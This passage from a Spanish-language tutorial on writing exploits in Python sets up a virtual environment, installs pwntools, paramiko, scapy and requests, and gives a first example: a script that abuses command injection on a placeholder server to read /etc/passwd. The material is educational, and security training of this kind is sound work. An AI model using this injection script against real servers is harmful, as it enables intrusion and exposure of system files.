 Crea un entorno virtual (opcional pero recomendado):

```bash
python3 -m venv venv
source venv/bin/activate
```

---

#### ✅ 3. Instalar herramientas/librerías útiles

```bash
pip install requests
pip install pwntools
pip install paramiko
pip install scapy
```

##### Explicación de cada una:

- `requests`: para enviar peticiones HTTP
- `pwntools`: para explotar binarios, crear payloads, etc.
- `paramiko`: para explotar SSH
- `scapy`: para manipular paquetes de red

---

### 🚨 EJEMPLO 1: Exploit básico en Python – Petición maliciosa

**Objetivo:** Un servidor web vulnerable a inyección de comandos a través de la URL.

#### Vulnerabilidad:

La URL permite ejecutar comandos sin validar la entrada del usuario:

```http
http://victima.com/vuln.php?cmd=ls
```

#### Exploit en Python:

```python
import requests

# URL del servidor vulnerable
url = "http://victima.com/vuln.php"

# Comando que queremos ejecutar en el servidor
cmd = "cat /etc/passwd"

# Enviar el comando como parámetro
params = {"cmd": cmd}

# Realizar la solicitud
response = requests.get(url, params=params)

# Mostrar el resultado
print(response.text)
```
